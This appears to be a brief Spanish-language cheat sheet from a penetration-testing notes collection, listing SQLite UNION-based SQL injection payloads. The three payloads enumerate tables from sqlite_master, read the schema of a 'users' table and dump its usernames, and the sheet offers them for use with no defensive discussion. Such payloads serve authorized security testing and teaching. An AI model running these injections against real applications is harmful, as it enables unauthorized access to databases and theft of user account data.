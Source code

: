 # sqlite

# Sqlite

## Listar tablas

```
union select 1,group_concat(tbl_name),3,4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -
```

## Listar columnas

```
union select 1,group_concat(sql),3,4 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -
```

## Dumpear datos

```
union select 1,group_concat(username),3,4 FROM users-- -
```